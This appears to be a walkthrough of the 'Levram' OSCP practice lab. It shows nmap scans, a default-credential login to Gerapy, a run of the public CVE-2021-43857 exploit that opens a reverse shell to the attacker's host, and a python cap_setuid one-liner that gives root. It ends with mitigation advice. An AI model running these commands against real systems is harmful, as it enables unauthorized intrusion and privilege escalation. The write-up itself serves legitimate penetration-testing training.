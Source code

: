 ```yaml
---
title: Levram
date: 2025-04-30
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, default-creds, CVE-2021-43857, capabilities-privesc] 
image: ammag.webp
media_subpath: /assets/img/posts/2025-04-30-levram/
---
```


## Introduction

I identified that ports 22 and 8000 were open. Navigating to port 8000 revealed a login portal for the Gerapy web application. By using default credentials, I successfully gained access to the interface. Noticing that the application was running version 0.9.7 (as indicated at the bottom of the page), I searched for and utilized a publicly available exploit targeting this version to achieve remote access. Further enumeration revealed that the `python` binary had the `cap_setuid` capabilities enabled, which I exploited to escalate privileges and gain root access.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open 
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

We usually skip SSH.

## Web

### Port 8000

- Version - WSGIServer 0.2 (Python 3.10.6)

## Exploitation

We are presented with login panel I used `admin:admin` and got in. I saw the version information at the bottom and the found public exploit for it:

![image.png](image%201.png)

[ExploitDB CVE-2021-43857](https://www.exploit-db.com/exploits/50640)

Exploit works by logging in to application, then getting the list of created projects `(it will fail if there's none)`, then use the project setting to run the vulnerable spider mechanism by sending reverse shell payload.

[https://github.com/LongWayHomie/CVE-2021-43857/blob/main/README.md](https://github.com/LongWayHomie/CVE-2021-43857/blob/main/README.md)

So I created a random project, and then executed the exploit and a shell:

![image.png](image%202.png)

```bash
python3 50640.py -t 192.168.242.24 -p 8000 -L 192.168.45.155 -P 8000
```

![image.png](image%203.png)

I checked SUID binaries and tried `sudo -l` 

## Privilege Escalation

- OSCP Checklist
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles

I transferred `db.sqlite3` with python over attack machine:

[SQLite Pentesting](https://exploit-notes.hdks.org/exploit/database/sqlite-pentesting/)

> SQLite is a lightweight, self-contained, serverless relational database management system (RDBMS). Unlike traditional databases like MySQL or PostgreSQL, SQLite does not require a separate server process—the entire database is stored in a single file on disk.
Key Features:
- Embedded: It's part of the application; no separate server or configuration is needed.
- Zero-configuration: No setup or administration required.
- Portable: The database is just a file you can copy or move easily.
- ACID-compliant: Supports transactions to ensure data integrity.
{: .prompt-info }

But I didn’t find anything interesting in the database:

![image.png](image%204.png)

Enumerating Capabilities:

```bash
/usr/sbin/getcap -r / 2>/dev/null
```

we see:

![image.png](image%205.png)

I found a very interesting one.

[Python-Capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

```bash
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")’
```

![image.png](image%206.png)

Now we are root!

## Mitigation

- **Service Hardening:**
    - Disable or restrict access to non-essential ports (such as 8000) using firewall rules.
    - Avoid running web applications on development ports in production environments.
- **Authentication Security:**
    - Remove or change all default credentials immediately after installation.
    - Enforce strong password policies and implement two-factor authentication where possible.
- **Software Updates:**
    - Regularly update applications like Gerapy to the latest stable versions to patch known vulnerabilities.
    - Monitor vulnerability databases for any CVEs affecting software in use.
- **Capabilities Management:**
    - Audit binary capabilities using `getcap -r / 2>/dev/null` and remove unnecessary capabilities using `setcap -r`.
    - Avoid assigning `cap_setuid` or `cap_setgid` to scripting languages like Python unless absolutely necessary.
- **Privilege Escalation Protection:**
    - Apply the principle of least privilege across all user roles and services.
    - Use security modules like AppArmor or SELinux to limit what binaries can do, even if compromised.
